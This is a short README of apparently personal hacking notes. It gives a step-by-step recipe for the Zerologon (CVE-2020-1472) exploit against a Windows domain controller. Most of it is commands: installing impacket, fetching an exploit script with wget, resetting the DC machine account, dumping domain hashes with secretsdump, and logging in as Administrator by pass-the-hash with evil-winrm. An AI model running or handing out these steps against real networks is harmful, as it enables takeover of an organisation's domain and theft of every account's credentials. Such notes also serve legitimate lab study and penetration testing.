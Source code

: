 # How to perform the Zero Logon Exploit  

## 1. Perform these commands (in order) on attack machine:
```
python3 -m pip install virtualenv
```
```
python3 -m virtualenv impacketEnv
```
```
source impacketEnv/bin/activate
```
```
pip install git+https://github.com/SecureAuthCorp/impacket
```   

## 2. Put zeroLogon-NullPass.py on attack machine:
```
wget https://raw.githubusercontent.com/SecuraBV/CVE-2020-1472/master/zerologon_tester.py
```
Note: if the link above ever breaks, you can find the same code in the same directory that this code is found (https://github.com/KyserClark/Hacking-Notes/blob/main/Exploits/Zero%20Logon/zeroLogon-NullPass.py)   

## 3. Perform this command:
```
python3 zeroLogon-NullPass.py [DC NetBIOS Name] [MACHINE-IP]
```
Note: You can use nmap to find the NetBIOS name of the domain controller:
```
nmap -sC -sV [TARGET-IP]
```  

## 4. Dump hashes:
```
secretsdump.py -just-dc -no-pass [DC NetBIOS Name]\$@[MACHINE-IP]
```  

## 5. Login with account hash:
```
evil-winrm -i [TARGET-IP] -u Administrator -H [NTLM-HASH]
```  

## 6. Actions on Objective
